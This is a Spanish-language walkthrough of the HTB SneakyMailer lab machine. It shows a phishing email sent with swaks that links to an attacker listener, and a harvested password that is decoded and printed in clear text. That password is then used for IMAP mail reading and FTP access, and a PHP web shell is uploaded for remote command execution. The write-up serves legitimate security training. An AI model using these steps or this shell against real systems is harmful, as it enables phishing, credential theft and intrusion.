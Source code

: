 ## Vulnerability Assessment {-}

### Swaksear la lista de email {-}

Es commun que en algunos servicios mail, nos podemos connectar al servidor y enviar email con un correo que no existe bajo el servidor indicado. 
Se puede hacer con la heramienta **swaks**. Aqui lo hacemos por el puerto **25**

```bash
nc -nlvp 80
```

```bash
swaks --to $(cat email.txt | tr '\n' ',') --from "s4vitar@sneakymailer.htb" \
--header "Subject: EEEEEEEE" --body "OH DIOS MIO ES DIAMOND JACKSON -> http://10.10.14.20/diamondjackson.jpg" \
--server 10.10.10.197
```

Ya vemos que podemos enviar el mail y que ademas alguien a pinchado el enlace. Ademas como utilizamos **nc** y no **python**
podemos ver la data enviada en raw. En la data vemos que podemos ver el usuario, el email y su password en formato url encode.

```bash
php --interactive

> print urldecode()"firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt"
```

Ya vemos la contraseña del usuario en texto claro.

Intentamos connectar por **SSH** y **FTP** pero nada

### Connectar por el IMAP con NC {-}

1. Logear por IMAP con NC

    ```bash
    nc 10.10.10.197 143

    A1 login paulbyrd ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
    #Output
    A1 OK LOGIN Ok.
    ```

1. Listear el contenido

    ```bash
    A2 LIST "" "*"
    ```
    
1. Selectionar INBOX

    ```bash
    A3 SELECT "INBOX"
    ```

1. Selectionar los mensajes enviados

    ```bash
    A4 SELECT "INBOX.Sent"
    ```

1. Selectionar los items enviados

    ```bash
    A5 SELECT "INBOX.Sent Items"
    ```

1. Selectionar lo que hay en la papelera

    ```bash
    A6 SELECT "INBOX.Deleted Items"
    ```

1. Vemos que hay dos elementos en los items enviados, los recuperamos

    ```bash
    A7 FETCH 1:2 BODY[]
    ```

En los bodys encontramos un un mensaje que pregunta para cambiar la contraseña del usuario developer poniendo 
y la contraseña original en texto claro.
En el otro mensaje otra vez hablan del servicio **Pypi**

Con el usuario y contraseña intentamos volver a connectar con **FTP**

### Conexion con FTP {-}

```bash
ftp 10.10.10.197

> Name: developer
> Password: contraseña
#Output
Connection succesful

dir
cd dev
dir
```

Aqui vemos el contenido de la web. Nos creamos la famosa `s4vishell.php`

```php
<?php
    echo "<pre>". shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

ahora con el ftp subimos el archivo.

```bash
put s4vishell.php
#Output
transfer complete
```

Controlamos en la web si vemos el fichero `http://sneakycorp.htb/s4vishell.php` pero tenemos un *404 NOT FOUND*.
Intentamos con otras url:

- `http://sneakycorp.htb/s4vishell.php`
- `http://10.10.10.197:8080/s4vishell.php`
- `http://10.10.10.197:8080/dev/s4vishell.php`

pero nada. Aqui pensamos en que podria tener otros subdominios.

### Descubrimientos de subdominios de dos formas {-}

#### Descubrimiento de subdominios con GOBUSTER {-}

```bash
gobuster vhost -u http://sneakycorp.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Encontramos el subdominio `dev.sneakycorp.htb`

#### Descubrimiento de subdominios con WFUZZ {-}

```bash
wfuzz -c -t 200 --hw=12 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -H "Host: FUZZ.sneakycorp.htb" http://10.10.10.197
```

Encontramos el subdominio `dev.sneakycorp.htb`

#### Retocamos en hosts {-}

```bash
nano /etc/hosts
```

```r
    knitr::include_graphics("images/hosts-dev-sneakycorp.png")
```

### Browsear el nuevo dominio {-}

Como aqui ya tenemos un nuevo dominio browseamos la web en `dev.sneakycorp.htb/s4vishell.php` y ahora si encontramos nuestra webshell.

- whoami con `dev.sneakycorp.htb/s4vishell.php?cmd=whoami`
- verificamos si estamos en un contenedor con `dev.sneakycorp.htb/s4vishell.php?cmd=hostname -I`

no es el caso y tenemos capacidad de remote code execution. Ahora intentamos ganar accesso al systema.
